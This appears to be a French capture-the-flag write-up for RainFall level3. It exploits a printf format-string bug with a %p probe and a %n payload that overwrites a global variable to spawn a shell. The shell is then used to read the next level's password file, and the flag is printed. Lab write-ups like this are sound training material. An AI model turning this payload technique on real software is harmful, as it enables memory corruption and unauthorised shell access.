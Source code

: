 Le programme utilise fgets, il est impossible de provoquer un buffer overflow, mais nous pouvons utiliser une format string attack avec printf. Une attaque par chaîne de format avec printf en C exploite des vulnérabilités où l'entrée utilisateur est utilisée par erreur comme paramètre de la chaîne de format, permettant à un attaquant de lire ou d'écrire en mémoire. Pour le tester, nous pouvons essayer d'ajouter %p à notre entrée. Nous avons également remarqué qu'une variable `m` a été déclarée, `m` est copiée dans `eax` puis comparée pour entrer dans la condition.

```
0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>```

```
Starting program: /home/user/level3/level3 
AAAA %p %p %p %p %p %p %p 
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070
```

Nous pouvons voir nos 4 A à la quatrième position, ce qui signifie que la variable `m` peut être écrasée 64 - 4 = 60 octets plus loin.

Pour écraser eax, passer la condition et exécuter system("/bin/sh"), nous devons spécifier l'adresse de `m`, puis ajouter les 60 octets et enfin utiliser `%n` pour écrire 4 octets à l'adresse de `m`.

```(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat) | ./level3```

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat) | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
